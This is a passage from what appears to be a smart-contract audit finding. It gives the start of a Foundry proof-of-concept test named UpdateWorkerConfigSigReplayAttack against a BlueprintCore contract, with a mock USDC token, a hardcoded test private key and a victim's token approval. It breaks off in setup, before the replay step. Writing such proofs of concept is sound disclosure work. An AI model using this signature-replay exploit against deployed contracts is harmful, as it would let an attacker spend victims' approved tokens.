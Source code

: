 
### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";


// Mock USDC as a payment token
contract MockUSDC is ERC20 {
    constructor() ERC20("MockUSDC", "MockUSDC") {}
    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

// Minor extension so we can set the cost for updating an agent
// -- In a real scenario the team will have decided on this cost -- attacker does not need to set or know the cost
contract BlueprintCoreWithCostSetter is BlueprintCore {
    function setPaymentOpCost(address token, string memory op, uint256 cost) external {
        paymentOpCostMp[token][op] = cost;
    }
}

contract UpdateWorkerConfigSigReplayAttack is Test {
    BlueprintCoreWithCostSetter public blueprintCore;
    MockUSDC public mockUSDC;
    uint256 public constant USDC_DECIMALS = 1e6;

    // Test (victim) signer private key and address
    uint256 public victimSignerPrivateKey = 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80;
    address public victimSigner;

    // Test parameters to make the request
    bytes32 public projectId = keccak256("project");
    string public initialBase64Config = "initialConfig";
    string public updatedBase64Config = "updatedConfig";
    address public feeCollectionWallet = address(0x3);
    address public privateWorkerAddress = address(0x4);
    
    // We will store the generated request ID
    bytes32 public generatedRequestID;

    function setUp() public {
        // Deploy contracts
        blueprintCore = new BlueprintCoreWithCostSetter();
        mockUSDC = new MockUSDC();
        victimSigner = vm.addr(victimSignerPrivateKey);

        // Let victim have 1000 USDC
        mockUSDC.mint(victimSigner, 1000 * USDC_DECIMALS);

        // Simulate victim approving the contract to spend max balance (only approving, not spending)
        vm.prank(victimSigner);
        mockUSDC.approve(address(blueprintCore), 1000 * USDC_DECIMALS);

        // Configure payment settings
```
